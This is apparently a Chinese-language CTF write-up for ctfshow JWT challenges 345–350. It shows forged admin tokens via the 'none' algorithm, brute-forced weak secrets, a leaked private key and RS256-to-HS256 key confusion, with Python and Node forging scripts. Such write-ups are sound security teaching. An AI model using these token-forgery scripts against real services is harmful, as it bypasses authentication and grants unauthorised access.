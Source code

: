 ```yaml
---
title: ctfshow-jwt
id: ctfshow-jwt
date: 2021-08-25 6:40:33
sidebar_position: 10
---
```


<!-- more -->

jwt解密：[JSON Web Tokens - jwt.io](https://jwt.io/)
[JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)



## 345

提升/admin

抓包得到
`auth=eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4MzkxNzcsImV4cCI6MTYyOTg0NjM3NywibmJmIjoxNjI5ODM5MTc3LCJzdWIiOiJ1c2VyIiwianRpIjoiNWU2YmJjZjFhZWVmYmUzMmY2ZDY1OGNhNjhjZTFmYzUifV0`
[JSON Web Tokens - jwt.io](https://jwt.io/)解密一下，或者base64都可以

![](https://i.loli.net/2021/08/25/nP4Yr6st2HJ7ekV.png)

可以看到none，没有加密，也就不存在签名，用base64加密一下直接传cookie就好了

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0AW3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDAzOTksImV4cCI6MTYyOTg0NzU5OSwibmJmIjoxNjI5ODQwMzk5LCJzdWIiOiJhZG1pbiIsImp0aSI6ImE4NDQxMjFkYjRlYTZhNTY0ZDYwZTg1MDBiODU0ZDg3In1d
```

再访问/admin/就拿到flag了

## 346

![](https://i.loli.net/2021/08/25/IDdjWcAeZyPxJHo.png)

看群主方法是secret为弱口令123456，再将user改为admin

还有就是用python将jwt加密算法改为none，user改为admin

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> 签名算法可以确保JWT在传输过程中不会被恶意用户所篡改。
>
> 但头部中的alg字段却可以改为none。
>
> 另外，一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。
>
> 将alg字段改为none后，系统就会从JWT中删除相应的签名数据（这时，JWT就会只含有头部 + ‘.’ + 有效载荷 + ‘.’），然后将其提交给服务器。

```python
import base64
def jwtBase64Encode(x):
    return base64.b64encode(x.encode('utf-8')).decode().replace('+', '-').replace('/', '_').replace('=', '')
header = '{"alg":"none","typ":"JWT"}'
payload = '{"iss":"admin","iat":1629840556,"exp":1629847756,"nbf":1629840556,"sub":"admin","jti":"837101c2606dc36952678bce4166379f"} '

print(jwtBase64Encode(header)+'.'+jwtBase64Encode(payload)+'.')
```

## 347

还是弱口令，也可以用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)来将jwt密钥爆破出来
还是123456

![](https://i.loli.net/2021/08/25/8Vz1E6gYWs4jFlI.png)



## 348

爆破，这次用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)：
![](https://i.loli.net/2021/08/25/nXZmP8zy3Ul671I.png)得到密钥aaab
然后丢到[JSON Web Tokens - jwt.io](https://jwt.io/)处理一下即可
![](https://i.loli.net/2021/08/25/dPCkoiBG2hbVRwE.png)

## 349

给了一个app.js

```javascript
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin');
	  }
	});
});
```

可以看到是密钥泄漏，可以访问/private.key和/public.key获得私钥和公钥
然后在[JSON Web Tokens - jwt.io](https://jwt.io/)修改即可

![](https://i.loli.net/2021/08/25/bfFKED4WC9lGgLs.png)

修改jwt后post方式访问就可以得到flag

![](https://i.loli.net/2021/08/25/kcPMeTrj4pCiUQB.png)



## 350

给了源码，可以在其中获得公钥public.key

```
-----CTFSHOW 36D BOY -----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDfdIGdsPuxSGPuosgarjZ7zO4t
HHmQ7+6WUiKBA0ykcXe6aK9zcVVKCcEwyMbENgTF4Et8RjZ3NKs1Co74Q+4gII5G
IgQFSS0PzTOKmoTY1fnA6+jqBquV4RnU283kgdaKmkaSRdiwsW2EaagMgZdG6WJk
65RmH98bgnIAGW5nawIDAQAB
-----END PUBLIC KEY-----
```

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> HS256算法使用密钥为所有消息进行签名和验证。
>
> 而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。
>
> 如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。
>
> 由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。
>
> 这样的话，后端代码使用RSA公钥+HS256算法进行签名验证。

一开始想用python的（要安装pyjwt模块）

```python
import jwt
payload = {
  "user": "admin",
  "iat": 1629843927
}
public = open('C:\\Users\\11634\\Desktop\\public.key', 'r').read()
# print(public)
info = jwt.encode(payload, key=public, algorithm='HS256')
print(info)

```

但是发现生成的payload会报错：Cannot read property 'user' of undefined
看了羽师傅的博客猜测是jwt版本上不太对应，还是用羽师傅的node脚本：

jwt库要用题目给的源码中的，就是要保证版本一致。
把脚本文件和public.key都丢到源码文件夹里运行即可

```apl
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDQ1Njl9.fsSZJ7uaowtF4NP64WBTPunft-PuQykWdYa4iTup0KI
```

还是post传即可得到flag